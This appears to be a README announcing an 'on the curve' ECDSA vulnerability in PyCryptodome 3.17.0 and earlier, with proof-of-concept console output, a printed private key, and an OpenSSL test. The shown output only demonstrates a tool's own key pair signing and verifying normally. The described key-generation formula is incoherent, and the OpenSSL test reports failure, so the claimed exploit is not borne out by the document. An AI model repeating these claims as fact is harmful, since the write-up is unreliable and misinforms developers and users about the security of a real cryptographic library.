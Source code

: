 # ECC On The Curve Vulnerability

Note this vulnerability has been resolved as 11/2024. If you are using 3.17.0 or older versions upgrade.

## Exploiting ECDSA Signatures

### Issue:

ECDSA signatures will improperly validate spoofed keys with forced public keys. In this proof-of-concept ECDSA keys are generated with ```length = len(x+y) ``` and ```d = random(length)-(x+y)``` to exploit PyCryptodomes ECDSA implementations.

- https://github.com/Legrandin/pycryptodome/blob/master/lib/Crypto/Signature/DSS.py
- https://www.rfc-editor.org/rfc/rfc6979
- https://csrc.nist.gov/csrc/media/publications/fips/186/3/archive/2009-06-25/documents/fips_186-3.pdf


### Proof of Concept:

```
 python .\ECCTool.py
X: 4105375390653649233713119777321734233266869078187987018407577420645365974521940631581724628993333063239514030334497
Y: 27675056301647551922849568396717635354139598802203471838229080227718009101673931134993105203564358052385576850782585
D: 27362011191244522599400977620412273256865510408751044570755755486992953037333842464164901064989290490254223630055135
------------------------------------------------------------------------------
Spoofed X: 4105375390653649233713119777321734233266869078187987018407577420645365974521940631581724628993333063239514030334497
X matches
Spoofed Y: 27675056301647551922849568396717635354139598802203471838229080227718009101673931134993105203564358052385576850782585
Y matches
------------------------------------------------------------------------------
Exporting Key
-----BEGIN PRIVATE KEY-----
MIG2AgEAMBAGByqGSM49AgEGBSuBBAAiBIGeMIGbAgEBBDCxxkp6uxcwPfu7QYSd
qjki7PEfmzP/jlBgZHLuOWGbzzVwLQN1OHwZzGNJpOiCtt+hZANiAAQarFRaqflo
I+d61SRvU8Za2EurxtW20eZzca7dnNYMYf3boIkDuAUU7FfO7l0/4iGzzvfUinng
o4N+LZfQYcTxmdwlkWOrfzCjtHDix6EznPO/LlxTsV+zfTJ/ijTjeXk=
-----END PRIVATE KEY-----
------------------------------------------------------------------------------
Testing deterministic-rfc6979 signature
Signature: b'06MvLMpqCepsI43/rUKaQDatG1q7ch+6jT1cpairfqIJNyNtHgCniD01Z6DWCZyjl5o4XX8YIQLZ1gJvz54FRQpt0SuJ2jGuJRzwy80tpJz1UjEpIEAB8q61tFM9WMF0'
deterministic-rfc6979 signature generated
deterministic-rfc6979 signature is validated!
Successful exploitation of on the curve vulnerability!
------------------------------------------------------------------------------
Testing FIPS-186-3 signature
Signature generated
Signature: b'yKQZ+itxNbdgbYMHZ9B0dHYxLtX00qNrmy0xGcwi1ODbEmk344wiQAFGq5mDy3hlD9UyWyy8vb1rQrjPvZKBgMbisnmYSHtZRr0fnGLJW11hFIcd1Cd73D26YWjLOdlo'
FIPS-186-3 signature is validated!
Successful exploitation of on the curve vulnerability!
------------------------------------------------------------------------------
Results for 'On the Curve Vulnerability':
RFC 6979: True
FIPS-186-3: True
```
### Testing against OpenSSL

```
OpenSSL> dgst -sha256 -sign key.pem -out signature.sign id.db
OpenSSL> dgst -sha256 -prverify key.pem -signature signature.sign id.db
Verification Failure
error in dgst
OpenSSL> pkey -in key.pem
-----BEGIN PRIVATE KEY-----
MIG2AgEAMBAGByqGSM49AgEGBSuBBAAiBIGeMIGbAgEBBDCxxkp6uxcwPfu7QYSd
qjki7PEfmzP/jlBgZHLuOWGbzzVwLQN1OHwZzGNJpOiCtt+hZANiAAQarFRaqflo
I+d61SRvU8Za2EurxtW20eZzca7dnNYMYf3boIkDuAUU7FfO7l0/4iGzzvfUinng
o4N+LZfQYcTxmdwlkWOrfzCjtHDix6EznPO/LlxTsV+zfTJ/ijTjeXk=
-----END PRIVATE KEY-----
```
